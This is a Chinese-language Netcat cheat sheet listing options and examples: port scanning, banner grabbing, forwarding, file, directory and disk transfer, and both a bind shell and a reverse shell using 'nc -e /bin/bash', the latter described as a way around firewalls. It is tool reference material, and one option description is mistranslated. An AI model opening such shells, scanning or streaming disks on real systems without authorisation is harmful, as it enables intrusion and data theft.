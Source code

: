 Netcat 备忘清单
===

该备忘单提供了在 Linux 和 Unix 上使用 Netcat 的各种方法。

入门
------
<!--rehype:body-class=cols-5-->

### 用法
<!--rehype:wrap-class=col-span-2-->

连接到位于任何地方的主机

```shell
$ nc [options] [host] [port]
```

监听传入连接

```shell
$ nc -lp port [host] [port]
```

### 选项示例
<!--rehype:wrap-class=col-span-3 row-span-2-->

选项 | 示例 | 说明
:- | :- | :-
`-h`   | nc -h                      | 帮助
`-z`   | nc -z 192.168.1.9 1-100    | 端口扫描主机或 `IP` 地址
`-v`   | nc -zv 192.168.1.9 1-100   | 提供详细输出
`-n`   | nc -zn 192.168.1.9 1-100   | 通过禁用 `DNS` 解析进行快速扫描
`-l`   | nc -lp 8000                | `TCP` 侦听模式 _(用于入站连接)_
`-w`   | nc -w 180 192.168.1.9 8000 | 定义超时值
`-k`   | nc -kl 8000                | 断线后继续收听
`-u`   | nc -u 192.168.1.9 8000     | 使用 `UDP` 而不是 `TCP`
`-q`   | nc -q 1 192.168.1.9 8000   | 客户在 `EOF` 后熬夜
`-4`   | nc -4 -l 8000              | 仅限 `IPv4`
`-6`   | nc -6 -l 8000              | 仅限 `IPv6`

### 聊天客户端-服务器
<!--rehype:wrap-class=col-span-2-->

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000
```

客户端 Client

```shell
$ nc 192.168.1.9 8000
```

Netcat 示例
--------

### Banner 抓取

```shell
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```

或者

```shell
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### 端口扫描

扫描 `21` 到 `25` 之间的端口

```shell
$ nc -zvn 192.168.1.1 21-25
```

扫描端口 `22`、`3306` 和 `8080`

```shell
$ nc -zvn 192.168.1.1 22 3306 8080
```

### 代理和端口转发

```shell
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```

或者

```shell
$ nc -l 8001 | nc 127.0.0.1 8000
```

创建从一个本地端口到另一个本地端口的隧道

### 下载文件

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000 < file.txt
```

客户端 Client

```shell
$ nc -nv 192.168.1.9 8000 > file.txt
```

假设您想将文件 `file.txt` 从服务器 A 传输到客户端 B。

### 上传文件

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000 > file.txt
```

客户端 Client

```shell
$ nc 192.168.1.9 8000 < file.txt
```

假设您想将文件 `file.txt` 从客户端 `B` 传输到服务器 `A`

### 目录传输

服务器 Server (192.168.1.9)

```shell
$ tar -cvf – dir_name | nc -l 8000
```

客户端 Client

```shell
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

假设您想通过网络将目录从 `A` 传输到 `B`

### 加密传输
<!--rehype:wrap-class=col-span-2-->

服务器 Server (192.168.1.9)

```shell
$ nc -l 8000 | openssl enc -d -des3 -pass pass:password > file.txt
```

客户端 Client

```shell
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

在通过网络传输之前加密数据

### 克隆

服务器 Server (192.168.1.9)

```shell
$ dd if=/dev/sda | nc -l 8000
```

客户端 Client

```shell
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

克隆 linux PC 非常简单。假设你的系统盘是 /dev/sda

### 视频流

服务器 Server (192.168.1.9)

```shell
$ cat video.avi | nc -l 8000
```

客户端 Client

```shell
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

使用 netcat 流式传输视频

### 远程 shell

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000 -e /bin/bash
```

客户端 Client

```shell
$ nc 192.168.1.9 8000
```

我们已经使用 `telnet` 和 `ssh` 使用远程 `Shell`，但是如果它们没有安装并且我们没有安装它们的权限，那么我们也可以使用 `netcat` 创建远程 `shell`

### 逆转 shell

服务器 Server (192.168.1.9)

```shell
$ nc -lv 8000
```

客户端 Client

```shell
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

反向 `shell` 通常用于绕过防火墙限制，例如阻止入站连接
